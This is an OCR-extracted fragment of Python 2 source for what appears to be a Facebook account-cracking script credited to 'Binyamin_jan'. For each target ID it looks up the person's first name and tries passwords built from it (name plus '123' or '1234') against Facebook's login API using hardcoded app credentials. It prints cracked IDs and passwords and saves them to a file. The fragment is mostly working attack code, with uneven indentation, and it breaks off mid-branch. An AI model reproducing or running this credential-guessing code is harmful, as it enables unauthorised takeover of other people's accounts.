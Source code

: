 	print "\033[1;97m[+]\033[1;91mTotal Accounts\033[1;97m: \033[1;97m"+str(len(id))
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;97m[+]\033[1;31mHacking Has Been Started\033[1;97m"+o),;sys.stdout.flush();time.sleep(0.05)
	print "\n\033[1;97m[+]\x1b[1;31mStop Process Press CTRL+Z"
	print "\033[1;97m•-----------------\033[1;37mBinyamin_jan\033[1;97m-----------------•"
 	
			
	def main(arg):
		global oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:Binyamin
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '123'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;91m[!] \x1b[1;92m[OK]'											
				print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']											
				print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user											
				print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;91m[!] \x1b[1;96m[Checkpoint]'
				    print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b ['name']
				    print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				    print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '1234'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;94m[!] \x1b[1;92m[OK]'											
				            print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']											
				            print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user								
				            print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass2 + '\n'											
				            oks.append(user+pass2)
                                    else:
			                   if 'www.facebook.com' in q["error_msg"]:
				               print '\x1b[1;94m[!] \x1b[1;96m[Checkpoint]'
				               print '\x1b[1;93m[!] \x1b[1;97mName \x1b[1;93m    : \x1b[1;97m' + b['name']
				               print '\x1b[1;92m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				               print '\x1b[1;91m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass2 + '\n'
				               cek = open("out/super_cp.txt", "a")
				               cek.write("ID:" +user+ " Pw:" +pass2+"\n")